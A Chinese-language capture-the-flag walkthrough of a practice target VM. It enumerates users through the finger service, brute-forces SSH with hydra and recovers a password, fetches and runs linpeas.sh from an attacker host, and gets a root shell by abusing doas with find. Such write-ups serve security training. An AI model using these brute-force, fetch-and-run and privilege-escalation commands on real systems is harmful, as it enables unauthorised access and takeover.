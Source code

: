 # 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/X6CBKJWTQC#BKNmfYEwUCOT)

![image-20250321161652928](assets/image-20250321161652928.png)



## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```

![image-20250321161838246](assets/image-20250321161838246.png)

新建文件夹用来存放nmap扫描结果



#### 主机探测

![image-20250321161815310](assets/image-20250321161815310.png)

确定靶机ip：

192.168.1.17



#### 端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.1.17 -oA ./nmapscan/ports
```

![image-20250321161929634](assets/image-20250321161929634.png)

开放了：

- 22 ssh
- 79 finger
- 80 http



#### 提取端口信息

```
ports
```

![image-20250321162026683](assets/image-20250321162026683.png)

![image-20250321162043194](assets/image-20250321162043194.png)



#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,79,80 192.168.1.17 -oA ./nmapscan/detail
```

![image-20250321162109914](assets/image-20250321162109914.png)

分析：

- 22 ssh OpenSSH 8.4p1
- 79 finger
- 80 http Apache httpd 2.4.56



### 79端口

#### 利用nc测试用户信息

```
nc 192.168.1.17 79
asd
nc 192.168.1.17 79
root
```

![image-20250321162233317](assets/image-20250321162233317.png)

当用户不存在时，会提示没有这个用户

当用户存在时，会显示用户信息

也就是我们可以利用脚本遍历用户字典，然后发送nc请求





#### 也可以用msfconsole

```
msfconsole
search finger
use 10
show options
set rhosts 192.168.1.17
set UsERS_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt
set THREADS 50
run
```

![image-20250321163327882](assets/image-20250321163327882.png)

![image-20250321163334052](assets/image-20250321163334052.png)

![image-20250321163347726](assets/image-20250321163347726.png)

枚举用户名

![image-20250321163400351](assets/image-20250321163400351.png)

![image-20250321163414611](assets/image-20250321163414611.png)

![image-20250321163524911](assets/image-20250321163524911.png)

得到用户

- adam



### 80端口

#### 访问192.168.1.17

![image-20250321163700301](assets/image-20250321163700301.png)

apache主页

查看源码，无信息



#### 目录扫描

```
dirsearch -u http://192.168.1.17
```

![image-20250321163651173](assets/image-20250321163651173.png)

无结果



#### gobuster扫描

```
gobuster dir -u http://192.168.1.17 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
```

![image-20250321163919565](assets/image-20250321163919565.png)

无结果



### 22 端口

#### 尝试hydra爆破密码

```
hydra -l adam -P /usr/share/seclists/Passwords/probable-v2-top12000.txt ssh://192.168.1.17
```

![image-20250321164307347](assets/image-20250321164307347.png)

得到：

```
adam:passion
```



#### ssh登录

```
ssh adam@192.168.1.17
```

![image-20250321164347684](assets/image-20250321164347684.png)



## 提权

### 得到第一个flag

```
ls
cat user.txt
```

![image-20250321164435892](assets/image-20250321164435892.png)



### 查看用户信息

```
cat /etc/passwd
```

![image-20250321164455238](assets/image-20250321164455238.png)

只有这一个普通用户



### 执行sudo -l

![image-20250321164526255](assets/image-20250321164526255.png)



### suid文件查找

```
find / -perm -4000 2>/dev/null
```

![image-20250321164603271](assets/image-20250321164603271.png)

存在doas





### 上传linpeas.sh

```
wget 192.168.1.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image-20250321164910971](assets/image-20250321164910971.png)

![image-20250321164959235](assets/image-20250321164959235.png)

即adam用户允许利用doas作为root用户执行find命令



### find提权

```
doas -u root /usr/bin/find . -exec /bin/sh \;
```

![image-20250321165317267](assets/image-20250321165317267.png)



### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250321165341723](assets/image-20250321165341723.png)